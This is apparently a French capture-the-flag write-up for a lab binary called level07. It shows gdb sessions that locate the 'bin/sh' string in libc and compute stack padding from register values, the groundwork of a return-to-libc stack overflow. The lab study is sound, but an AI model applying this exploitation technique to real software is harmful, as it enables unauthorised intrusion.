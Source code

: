 ```h
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]

(gdb) find 0xf7e2c000, 0xf7fd0000, "bin/sh"
0xf7f897ed
1 pattern found.
```

Je dois ensuite calculer le "padding" nécessaire, étant donné qu'il est question ici de plusieurs buffer et plusieurs variables sur plusieurs fonctions, je vais utiliser une méthode différente pour calculer le padding, en utilisant `gdb` ainsi que des `breakpoint`, puis la commande `info registers` :

```h
(gdb) disas main
Dump of assembler code for function main:
   0x08048723 <+0>:     push   %ebp
   0x08048724 <+1>:     mov    %esp,%ebp
   0x08048726 <+3>:     push   %edi
   0x08048727 <+4>:     push   %esi
   0x08048728 <+5>:     push   %ebx
   ...
   0x080489ea <+711>:   lea    -0xc(%ebp),%esp <----- break ici, avant le leave qui "vide" la stack
   0x080489ed <+714>:   pop    %ebx
   0x080489ee <+715>:   pop    %esi
   0x080489ef <+716>:   pop    %edi
   0x080489f0 <+717>:   pop    %ebp
   0x080489f1 <+718>:   ret

(gdb) b *main+711
Breakpoint 1 at 0x80489ea

(gdb) r
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: quit

Breakpoint 1, 0x080489ea in main()

(gdb) info registers
...
esp            0xffffd4f0       0xffffd4f0
ebp            0xffffd6d8       0xffffd6d8
...
```
